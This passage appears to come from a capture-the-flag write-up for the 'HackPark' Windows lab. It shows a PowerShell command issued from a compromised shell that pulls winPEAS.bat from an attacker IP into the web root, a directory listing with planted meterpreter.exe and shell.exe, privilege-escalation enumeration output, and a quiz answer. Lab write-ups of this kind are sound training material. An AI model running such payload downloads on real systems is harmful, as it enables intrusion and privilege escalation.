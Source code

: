 Now, we can download [winPEAS.bat](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) on the target machine :  
```
c:\inetpub\wwwroot\App_Data\files>powershell -c "wget 10.14.31.20/winPEAS.bat -outfile C:\inetpub\wwwroot\App_Data\files\winPEAS.bat"    
powershell -c "wget 10.14.31.20/winPEAS.bat -outfile C:\inetpub\wwwroot\App_Data\files\winPEAS.bat"

c:\inetpub\wwwroot\App_Data\files>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552

 Directory of c:\inetpub\wwwroot\App_Data\files

10/15/2022  01:18 PM    <DIR>          .
10/15/2022  01:18 PM    <DIR>          ..
08/04/2019  03:11 PM           103,419 26572c3a-0e51-4a9f-9049-b64e730ca75d.jpg
10/15/2022  10:53 AM            73,802 meterpreter.exe
10/15/2022  10:53 AM    <DIR>          Microsoft
10/15/2022  10:45 AM             3,504 PostView.ascx
10/15/2022  12:37 PM            73,802 shell.exe
10/15/2022  01:18 PM            35,946 winPEAS.bat
               5 File(s)        290,473 bytes
               3 Dir(s)  39,042,953,216 bytes free
```

Let's run winPEAS.bat. It is asked to find the original install time :  
```
...
...
Host Name:                 HACKPARK
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-70000-00000-AA886
Original Install Date:     8/3/2019, 10:43:23 AM
System Boot Time:          10/15/2022, 10:42:57 AM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2400 Mhz
BIOS Version:              Xen 4.2.amazon, 8/24/2006
...
...
```

**Question : Using winPeas, what was the Original Install time ? (This is date and time)**  
**Answer : 8/3/2019, 10:43:23 AM**  
